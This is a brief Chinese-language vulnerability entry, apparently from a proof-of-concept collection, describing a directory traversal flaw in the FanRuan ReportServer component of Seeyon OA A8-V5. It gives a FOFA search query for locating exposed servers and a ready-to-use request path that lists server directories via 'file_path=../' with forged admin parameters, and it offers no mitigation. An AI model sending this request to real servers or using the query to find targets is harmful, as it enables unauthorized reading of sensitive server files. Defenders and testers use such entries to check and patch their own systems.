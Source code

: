 ## 致远OA帆软组件ReportServer目录遍历漏洞

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## fofa

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## poc

```
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131002733.png)